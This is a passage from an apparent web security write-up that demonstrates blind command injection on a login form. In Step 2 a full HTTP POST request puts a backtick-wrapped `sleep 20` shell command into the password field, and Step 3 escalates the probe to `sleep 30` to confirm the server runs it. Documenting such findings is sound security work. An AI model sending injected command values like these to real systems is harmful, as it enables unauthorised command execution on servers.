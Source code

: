 
## Step 2

Then doubling the value with `sleep 20`

>HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandh0t%40mail.com&password=%60sleep%2020%60

```

>HTTP Response

![](/assets/img/4/2.JPG)


## Step 3

Tripling  the value with `sleep 30`
